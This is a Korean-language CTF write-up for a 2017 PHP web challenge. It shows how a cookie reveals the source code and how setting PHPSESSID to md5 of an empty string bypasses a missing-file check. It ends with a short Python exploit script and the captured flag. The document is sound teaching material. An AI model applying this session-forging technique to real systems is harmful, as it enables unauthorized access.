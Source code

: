 # 2017 h3x0r - [WEB] File with PHP

## Key words

- $\_SESSION, $\_COOKIE
- (php) preg_match
- (php) unlink
- (php) NULL == "" (empty-string not \x00)

## Solution

문제에 접속하면 `Blank Page. LoL` 이라고만 뜨고 아무것도 뜨질 않습니다. 소스보기를 해보아도 별다른게 보이지 않아 `쿠키` 값을 확인해보았습니다.

확인 결과 해더 쿠키쪽에 다음과 같이 설정이 되어 있음을 볼 수 있습니다.

> Cookie:source=0; PHPSESSID=vpjjvib3sska8mgdglp3vg7in5

`PHPSESSID`는 PHP세션을 위해 존재하지만 `source`내용이 의심스럽습니다. 이 값을 `1`로 변경해보고 다시 요청하면 페이지에 문제 소스 코드가 나타나게 됩니다.

```php
<?php
    $flag = 1;
    include "config.php";

    $_SESSION[cookie] = $_COOKIE[PHPSESSID];

    if($_GET['mode']=="pwn") {

        $f=file("$_SESSION[cookie].txt");

        if(preg_match("/^$_SESSION[cookie]$/i", md5($f[0]))) {
            unlink("$_SESSION[cookie].txt");
            echo $flag;
        }

        $f = fopen(md5($_SESSION[cookie]).".txt", "w");
        fwrite($f,$_SESSION[cookie]);
        fclose($f);
        usleep(300000);
        unlink(md5($_SESSION[cookie]).".txt");
    }

    if($_COOKIE['source']) {
        show_source(__FILE__);
        exit();
    }

    setcookie('source', 0);
    echo "<h3> Blank Page. LoL </h3>";
?>
```

문제에서 제공된 소스의 첫 부분에 `$flag = 1`로 되어 있지만 실제로 서버에서는 달리 설정되어 있거나, `config.php`에서 정상적인 flag 값으로 설정하게 됩니다.

문제에서 flag를 얻는 플로우는 다음과 같습니다.

- $\_GET['mode']의 값이 `pwn`
- 유저가 요청한 쿠키의 `PHPSESSID`값을 읽어 $\_SESSION[cookie]에 저장한 뒤, `$\_SESSION[cookie].txt` 파일을 읽음
- 읽은 파일의 첫 번째 줄과 $\_SESSION[cookie]가 일치하게 되면 플래그를 출력

문제에서 로직적으로 버그가 생기는 부분은 처음에 세션을 사용자로부터 받고 파일을 읽었을 때, 해당 파일이 존재하지 않는 경우에 대해 처리가 안되어 있다는 점 입니다.

만약 쿠키 세션을 서버에 파일로 존재하지 않는 값으로 전달하게 되면 `$f[0]`의 값이 `null`이 되게 되고 결국 `md5(null)`과 제가 전달한 세션 값을 비교하고 동일한지 체크 하게 됩니다.

따라서, 쿠키의 세션값을 `md5(null)`로 만들어서 전달할 때 서버쪽에 해당 파일이 존재 하지 않는다면 플래그를 출력 할 것입니다.

한 가지 주의할 점은 `$f[0]`가 `NULL`값을 갖지만 널 값은 스페셜 문자로 사용되는 언어나 라이브러리에 따라서 달라 질 수 있습니다.

제공된 PHP 버전의 `NULL`값은 `Empty String`이기 때문에 `md5("")`로 해쉬를 해야 합니다.

## Code

```python
import requests
import hashlib

url = "http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php"

headers = { "Cookie": "PHPSESSID=" + hashlib.md5("").hexdigest() }
params  = { "mode": "pwn" }
r = requests.get(url, params=params, headers=headers)
print r.content

# result
# H3X0R{c65a4cb5ecf62bb0c995b7cd7b54db71}<h3> Blank Page. LoL </h3>
```

